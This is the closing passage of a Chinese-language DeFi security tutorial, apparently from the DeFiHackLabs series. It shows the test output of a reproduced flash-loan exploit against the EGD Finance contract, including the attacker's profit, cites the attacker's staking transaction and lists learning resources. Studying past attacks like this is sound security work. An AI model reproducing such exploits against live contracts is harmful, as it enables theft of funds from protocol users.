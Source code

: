```
  Claim all EGD Token reward from EGD Finance contract
  [INFO] Get reward (EGD token): 5630136.300267721935770000
  Flashloan[2] payback success
  Swap the profit...
  Flashloan[1] payback success
  -------------------------------- End Exploit ----------------------------------
  [End] Attacker USDT Balance: 18062.915446991996902763

Test result: ok. 1 passed; 0 failed; finished in 1.66s
```

> 注: DeFiHackLabs 提供的 EGD-Finance.exp.sol 有 Reproduce 攻击者的前置 Stacking 作业。
>
> 本教程未涵盖到前置动作，你可以自己练习看看！
> Attacker Stack Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8

第三课分享就先到这边，想学更多可以参考以下学习资源。
---
## 学习资源
[samczsun's eth txn explorer and vscode extension](https://www.youtube.com/watch?v=HXgu239mPBc)

[Vulnerabilities in DeFi by Daniel V.F.](https://www.youtube.com/watch?v=9fcOffCg2ig)

[Tenderly.co - Debug Transaction](https://www.youtube.com/watch?v=90GN9Ut8LhU)

[Reversing The EVM: Raw Calldata](https://degatchi.com/articles/reading-raw-evm-calldata)

https://web3sec.xrex.io/

